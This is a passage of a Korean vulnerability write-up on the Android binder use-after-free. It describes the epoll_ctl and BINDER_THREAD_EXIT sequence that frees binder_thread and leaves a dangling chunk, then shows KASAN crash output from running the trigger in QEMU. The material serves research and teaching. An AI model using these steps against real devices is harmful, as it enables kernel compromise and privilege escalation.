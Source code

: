 먼저 `epoll_create()` 함수로 event poll fd 를 만들어준다. 그 뒤 `epoll_ctl()` 로 `EPOLL_CTL_ADD` 를 요청해 `binder_thread`를 생성한 뒤 `ioctl`로 `BINDER_THREAD_EXIT` 을 요청해 생성된 `binder_thread`를 free 해 dangling chunk 를 만든다. 그 뒤 `epoll_ctl()` 로 `EPOLL_CTF_DEL`을 요청해 dangling chunk에 접근하면 된다.  

해당 코드를 컴파일하여 KASAN 이 적용된 커널에서 돌려보았다.

```bash
[  189.587536] BUG: KASAN: use-after-free in _raw_spin_lock_irqsave+0x2e/0x52
[  189.589467] Write of size 4 at addr ffff888052d465c8 by task exploit/6603
[  189.591403] 
[  189.591886] CPU: 0 PID: 6603 Comm: exploit Tainted: G        W       4.14.150+ #2
[  189.592314] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS rel-1.11.1-0-g0551a4be2c-prebuilt.qemu-project.org 04/01/2014
[  189.592314] Call Trace:
[  189.592314]  dump_stack+0x93/0xcd
[  189.592314]  print_address_description+0x6f/0x233
[  189.592314]  ? _raw_spin_lock_irqsave+0x2e/0x52
[  189.592314]  __kasan_report+0x138/0x17e
[  189.592314]  ? _raw_spin_lock_irqsave+0x2e/0x52
[  189.592314]  kasan_report+0x16/0x1b
[  189.592314]  check_memory_region+0x12f/0x135
[  189.592314]  kasan_check_write+0x18/0x1a
[  189.592314]  _raw_spin_lock_irqsave+0x2e/0x52
[  189.592314]  remove_wait_queue+0x1c/0xd8
[  189.592314]  ep_unregister_pollwait.constprop.0+0x11b/0x14b
[  189.592314]  ep_remove+0x45/0x1d9
[  189.592314]  SyS_epoll_ctl+0x152f/0x1840
[  189.592314]  ? ioctl_preallocate+0x1a7/0x1a7
[  189.592314]  ? SyS_epoll_create+0x3a/0x3a
[  189.592314]  ? security_file_ioctl+0x67/0xa4
[  189.592314]  ? prepare_exit_to_usermode+0x22d/0x239
[  189.592314]  do_syscall_64+0x1d4/0x216
[  189.592314]  ? prepare_exit_to_usermode+0x22d/0x239
[  189.592314]  ? SyS_epoll_create+0x3a/0x3a
[  189.592314]  entry_SYSCALL_64_after_hwframe+0x3d/0xa2
[  189.592314] RIP: 0033:0x23616a
[  189.592314] RSP: 002b:00007ffdc7afaf88 EFLAGS: 00000206 ORIG_RAX: 00000000000000e9
[  189.592314] RAX: ffffffffffffffda RBX: 00000000002adfb8 RCX: 000000000023616a
[  189.592314] RDX: 0000000000000003 RSI: 0000000000000002 RDI: 0000000000000004
[  189.592314] RBP: 00007ffdc7afafb0 R08: 0000000000204543 R09: 0000000000000000
[  189.592314] R10: 00007ffdc7afaf98 R11: 0000000000000206 R12: 0000000000000001
[  189.592314] R13: 00007ffdc7afb0a8 R14: 0000000000222160 R15: 00007ffdc7afb080
[  189.592314] 
[  189.592314] Allocated by task 6603:
[  189.592314]  save_stack_trace+0x1a/0x1c
[  189.592314]  save_stack+0x44/0xab
[  189.592314]  __kasan_kmalloc.constprop.0+0x8f/0xa1
[  189.592314]  kasan_kmalloc+0xd/0xf
[  189.592314]  __kmalloc+0x170/0x199
[  189.592314]  kzalloc.constprop.0+0x1c/0x1e
[  189.592314]  binder_get_thread+0x15e/0x63f
[  189.592314]  binder_poll+0x51/0x1cb
[  189.592314]  ep_item_poll+0xd7/0x10e
[  189.592314]  SyS_epoll_ctl+0xd4a/0x1840
[  189.592314]  do_syscall_64+0x1d4/0x216
[  189.592314]  entry_SYSCALL_64_after_hwframe+0x3d/0xa2
[  189.592314]  0xffffffffffffffff
[  189.592314] 
[  189.592314] Freed by task 6603:
[  189.592314]  save_stack_trace+0x1a/0x1c
[  189.592314]  save_stack+0x44/0xab
[  189.592314]  __kasan_slab_free+0x10b/0x12f
[  189.592314]  kasan_slab_free+0x12/0x14
[  189.592314]  slab_free_freelist_hook+0xb9/0x105
[  189.592314]  kfree+0x102/0x196
```
